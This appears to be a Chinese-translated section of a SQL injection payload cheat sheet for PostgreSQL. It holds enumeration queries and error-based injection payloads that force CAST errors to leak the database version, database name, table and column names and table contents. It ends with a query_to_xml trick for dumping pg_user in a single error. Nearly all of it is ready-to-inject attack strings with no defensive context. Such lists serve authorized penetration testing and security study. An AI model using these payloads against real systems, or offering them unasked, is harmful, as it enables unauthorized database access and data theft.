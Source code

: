## PostgreSQL 方法论

| 描述                   | SQL 查询                                    |
| ---------------------- | -------------------------------------------- |
| 列出模式               | `SELECT DISTINCT(schemaname) FROM pg_tables` |
| 列出数据库             | `SELECT datname FROM pg_database`            |
| 列出表                 | `SELECT table_name FROM information_schema.tables` |
| 列出表                 | `SELECT table_name FROM information_schema.tables WHERE table_schema='<SCHEMA_NAME>'` |
| 列出表                 | `SELECT tablename FROM pg_tables WHERE schemaname = '<SCHEMA_NAME>'` |
| 列出列                 | `SELECT column_name FROM information_schema.columns WHERE table_name='data_table'` |

## PostgreSQL 基于错误的注入

| 名称         | 负载         |
| ------------ | --------------- |
| CAST | `AND 1337=CAST('~'\|\|(SELECT version())::text\|\|'~' AS NUMERIC) -- -` |
| CAST | `AND (CAST('~'\|\|(SELECT version())::text\|\|'~' AS NUMERIC)) -- -` |
| CAST | `AND CAST((SELECT version()) AS INT)=1337 -- -` |
| CAST | `AND (SELECT version())::int=1 -- -` |

```sql
CAST(chr(126)||VERSION()||chr(126) AS NUMERIC)
CAST(chr(126)||(SELECT table_name FROM information_schema.tables LIMIT 1 offset data_offset)||chr(126) AS NUMERIC)--
CAST(chr(126)||(SELECT column_name FROM information_schema.columns WHERE table_name='data_table' LIMIT 1 OFFSET data_offset)||chr(126) AS NUMERIC)--
CAST(chr(126)||(SELECT data_column FROM data_table LIMIT 1 offset data_offset)||chr(126) AS NUMERIC)
```

```sql
' and 1=cast((SELECT concat('DATABASE: ',current_database())) as int) and '1'='1
' and 1=cast((SELECT table_name FROM information_schema.tables LIMIT 1 OFFSET data_offset) as int) and '1'='1
' and 1=cast((SELECT column_name FROM information_schema.columns WHERE table_name='data_table' LIMIT 1 OFFSET data_offset) as int) and '1'='1
' and 1=cast((SELECT data_column FROM data_table LIMIT 1 OFFSET data_offset) as int) and '1'='1
```

### PostgreSQL XML 辅助工具

```sql
SELECT query_to_xml('select * from pg_user',true,true,''); -- 返回所有结果为单个XML行
```

上述 `query_to_xml` 将指定查询的所有结果作为单个结果返回。将其与 [PostgreSQL 基于错误的注入](#postgresql-基于错误的注入) 技术结合使用，无需担心将查询限制为一个结果即可提取数据。
